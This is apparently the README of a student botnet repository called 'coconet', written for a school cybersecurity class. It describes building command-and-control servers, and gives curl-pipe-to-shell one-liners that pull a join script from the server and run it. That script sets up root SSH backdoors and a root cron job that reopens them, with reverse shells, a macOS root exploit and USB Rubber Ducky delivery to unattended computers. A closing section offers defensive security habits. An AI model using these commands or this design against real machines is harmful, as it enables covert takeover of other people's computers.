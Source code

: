 <img alt="Lynchburg College logo" src="https://bloximages.newyork1.vip.townnews.com/newsadvance.com/content/tncms/assets/v3/editorial/d/65/d65813d4-0da7-11e7-96af-4f86a016526b/58d0350ab3ae0.image.jpg" align="right" width=200>

# coconet
Code for building and administrating a rudimentary botnet.

**Please note that I strictly used this code for educational purposes. I do not and never have run a DDoSsing botnet or other such illegal operation and do not condone the use of this code for any malicious purpose.**

I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the cybersecurity class in which I partook. This activity was part of the class, and I absolutely never violated any rules.

## What's a "coconet?"
The full name of the Governor's School's Cybersecurity class was "Come Out, Come Out, Wherever You Are." Yes. I know. I nevertheless named this repository after an abbreviation of that name, plus "net," as in botnet.

Also, it sounds like "coconut." What's not to like?

## Lessons Learned
Through developing this codebase, I learned a lot about networking, shell scripting, and security. I realized just how dangerous it can be to allow others physical access to one's computer, and as such I've been far more careful henceforth to follow common-sense security precautions.

Though I'd never use an attack like this against anyone without permission (outside the aforementioned scenario), there are people who certainly would. As such, owners of (especially portable) computers ought to build, at the bare minimum, the following healthy security habits:

* Obviously, password-protect your device, and require authentication to log in after sleep.
* Remove any delay between closure of your device and the your screen lock becoming active. This may annoy you if you accidentally close the computer, but it will protect you from mistakenly thinking your computer is secure enough to be left alone when it won't be for five minutes.
* Never, ever leave your computer unlocked and/or unattended. By the end of my Governor's School class, I was able to seize total remote control of a Mac or Linux device, as root, with only 12 seconds of typing. Imagine what someone with genuine malevolent intentions (and more experience than a High School sophomore) could do if you let them touch your computer.
* If you must leave your computer unattended, close it to prevent anyone else taking over control when you walk away.

These changes definitely won't solve every security problem, but they'll make it much harder for someone to exploit your having given them physical access to your device.

## How it works
In brief, physical access can be used by an attacker to enter a simple command to download and run a shell script which will set up that computer as a new node in the network. This process involves enabling SSH and giving public key access to the root account, and adding a root cronjob to periodically download and run an update script from the Command & Control server (detailed below).

That update script will automatically reopen any backdoors which may have been closed since the last run. Code can be added to perform any task desired.

Thus, an operator may control nodes via SSH or by adding code for all nodes to run into update scripts. Reverse shells can also be used for finer control sans direct access network access for SSH.

### Command & Control
C&C is managed on ports `2042` & `2043` of a server.

Instructional scripts are served via HTTP on port `2042`. Run
```sh
python3 -m http.server 2042
```
from the `control` directory to make them available to nodes upon request.

A simple Python script opens a socket on port `2043` which listens for incoming data from nodes. All requests to the server are printed to the terminal, and important ones may be written into a file `nodes.txt`. Run
```sh
python3 server.py
```
after installing the dependencies listed in `requirements.txt` to listen for incoming data.

This process can be streamlined by using `./launch.sh` to automatically open two `tmux` windows with the appropriate commands.

### Joining
On macOS, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-command joining: it will download and decrypt an exploit needed to elevate (on OS X El Capitan) to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet. If you already have root access, you can just run `enact.sh` directly.

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Here are simple one-liners to join the botnet:

Mac:
```sh
curl [host]:2042/mac/join.sh |sh
```
Linux:
```sh
curl [host]:2042/linux/join.sh |sh
```

To save time and keystrokes, you can use these shortcuts:
```sh
curl [host]:2042/jm |sh
curl [host]:2042/jl |sh
```

Or, to save even more time, you can skip the part where you think about what operating system the computer is using and simply type:
```sh
curl [host]:2042/join.sh |sh
```

Really in a hurry? There's a shortcut for this as well:
```sh
curl [host]:2042/j |sh
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

I used this code with a [Digispark ATTINY85](http://www.alibaba.com/product-detail/Digispark-kickstarter-development-board-ATTINY85-module_60411308561.html), though it can be easily modified to work with other Rubber Duck USBs based on Arduino.

During the cybersecurity class in which I developed `coconet`, I plugged the drive into users' computers while they weren't looking, saving me the inconvenience of having to attain keyboard access.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command through SSH. This is less useful now that cron control exists. You can also run `up.sh` to view which/how many nodes on the current network are online.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).

I'm not affiliated with Lynchburg College in any way, nor does the college endorse this software.
